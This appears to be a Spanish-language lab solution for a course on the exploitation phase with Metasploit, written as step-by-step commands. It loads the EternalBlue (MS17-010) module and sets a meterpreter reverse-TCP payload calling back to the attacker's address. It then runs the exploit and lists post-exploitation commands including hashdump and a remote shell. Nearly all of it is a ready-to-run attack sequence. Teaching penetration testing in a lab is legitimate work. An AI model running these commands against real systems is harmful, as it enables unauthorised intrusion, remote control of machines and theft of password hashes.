 
# Solución: Práctica 04 - Fase de Explotación con Metasploit

## Paso 1: Iniciar Metasploit Framework
Inicia Metasploit en tu terminal:
```
msfconsole
```
**Explicación:** Este comando inicia la interfaz interactiva de Metasploit Framework.

---

## Paso 2: Buscar un exploit específico
Utiliza el comando `search` para localizar un exploit relevante:
```
search type:exploit name:ms17_010
```
**Explicación:** Esto busca el exploit relacionado con la vulnerabilidad MS17-010 (EternalBlue).

---

## Paso 3: Seleccionar el exploit
Selecciona el exploit encontrado en el paso anterior:
```
use exploit/windows/smb/ms17_010_eternalblue
```
**Explicación:** Esto carga el módulo del exploit en la consola de Metasploit.

---

## Paso 4: Configurar parámetros del exploit
Configura la dirección IP del objetivo:
```
set RHOSTS 192.168.1.10
```
**Explicación:** El parámetro `RHOSTS` define la dirección IP del sistema objetivo.

---

## Paso 5: Configurar el payload
Selecciona un payload compatible, como un shell reverso:
```
set PAYLOAD windows/x64/meterpreter/reverse_tcp
```
Configura la dirección IP local y el puerto de escucha:
```
set LHOST 192.168.1.20
set LPORT 4444
```
**Explicación:** `LHOST` es la IP de tu máquina y `LPORT` el puerto que escuchará el payload.

---

## Paso 6: Ejecutar el exploit
Lanza el ataque contra el objetivo:
```
exploit
```
**Explicación:** Esto inicia el proceso de explotación y, si tiene éxito, establecerá una sesión con el sistema objetivo.

---

## Paso 7: Post-explotación
Usa los comandos de Meterpreter para obtener más información o control del sistema:
```
sysinfo       # Obtiene información del sistema
hashdump      # Extrae hashes de contraseñas
shell         # Abre una terminal del sistema objetivo
```
**Explicación:** Meterpreter es una herramienta potente para realizar acciones posteriores a la explotación.
